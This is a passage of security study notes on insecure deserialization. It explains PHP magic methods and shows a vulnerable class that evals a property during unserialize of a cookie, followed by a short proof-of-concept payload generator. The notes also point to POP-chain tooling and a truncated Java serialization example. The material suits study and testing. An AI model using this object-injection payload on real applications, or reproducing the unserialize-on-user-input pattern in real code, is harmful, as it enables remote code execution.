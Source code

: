 | method | discription | developer used it for |
| ---- | ---- | ---- |
| **`__wakeup()`** | auto called when an object is deserialized | reconstruct any resources that the object may have, reestablish any database connections that were lost during serialization, and perform other reinitialization tasks. |
| **`__destruct()`** | will be called when the object is no longer referenced or goes out of scope(object is no longer needed.) | deletes and cleans up files associated with the object |
| **`__toString()`** | when an object is converted to a string | return a custom string format for the object |
| **`__call()`** | executed when an undefined method is called on the unserialized object. ex: a call to `$object->undefined($args)` will turn into `$object->__call('undefined', $args)` |  |
more about [magic functions](https://www.php.net/manual/en/language.oop5.magic.php)
we can get [[RCE]] if the implementation of any magic functions call dangerous function such `eval()` on user-provided input. 
##### `eval()` example
```php
class Example2 { 
	private $hook; 
	function __construct(){ 
	// some PHP code... 
	} 
	function __wakeup(){ 
		if (isset($this->hook)) eval($this->hook); 
	} 
}
// some PHP code...
$user_data = unserialize($_COOKIE['data']);
```
POC 
```php
<?php
class Example2 {
	private $hook = "phpinfo();"; 
} 
print urlencode(serialize(new Example2));
```
##### POP Chains
but what if the declared magic methods of the class don’t contain any useful code in terms of exploitation? We have another way of achieving [[RCE]] even in this scenario: POP chains. A *property-oriented programming (POP)* , POP chains work by stringing bits of code together, called *gadgets*, POP chains use magic methods as their initial gadget. Attackers can then use these methods to call other gadgets. [phpggc](https://github.com/ambionics/phpggc) is a pre-built gadget chain tool ​
[for example application code](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection), other lab from [penterslab](https://www.notion.so/mortorky/API-to-Shell-11e3efbe3fe742d486d3c358beed5ecb?pvs=4)
#### JAVA
For Java objects to be serializable, their classes must implement the `java.io.Serializable` interface. These classes also implement special methods, `writeObject()` and `readObject()`, to handle the serialization and deserialization, respectively, of objects of that class. JAVA use `ObjectOutputStream`, `ObjectInputStream` classes contains several methods to write/read objects.
```java
import java.io.ObjectInputStream; 
import java.io.ObjectOutputStream; 
import java.io.FileInputStream; 
import java.io.FileOutputStream; 
import java.io.Serializable; 
import java.io.IOException;
class User implements Serializable{
	public String username; 
}
public class SerializeTest{ 
	public static void main(String args[]) throws Exception{ 
		User newUser = new User();
		newUser.username = "devmrt"; 
		
		FileOutputStream fos = new FileOutputStream("object.ser"); 
```